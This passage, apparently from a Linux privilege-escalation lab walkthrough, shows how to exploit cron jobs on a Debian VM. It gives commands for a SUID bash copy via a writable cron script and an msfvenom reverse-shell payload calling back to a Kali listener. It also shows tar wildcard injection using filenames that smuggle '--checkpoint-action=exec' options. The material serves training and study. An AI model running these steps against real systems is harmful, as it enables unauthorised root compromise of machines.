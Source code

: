 * Note that the PATH variable starts with /home/user which is our user's home directory.
* Create a file called overwrite.sh in your home directory with the following contents:

```
#!/bin/bash
 
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

* Make sure that the file is executable:

```
chmod +x /home/user/overwrite.sh
```

* Wait for the cron job to run. Run the `/tmp/rootbash` command with `-p` to gain a shell running with root privileges:

```
/tmp/rootbash -p
```

### CronJobs - Wildcards

* View the contents of the other cron job script:

```
cat /usr/local/bin/compress.sh
```

* Note that the tar command is being run with a wildcard (\*) in your home directory.
* Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.
* Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

* Transfer the shell.elf file to /home/user/ on the Debian VM.

```
chmod +x /home/user/shell.elf
```

* Create these two files in /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

* When the tar command in the cron job runs, the wildcard (\*) will expand to include these files.
* Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.
* Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run. A root shell should connect back to your netcat listener.
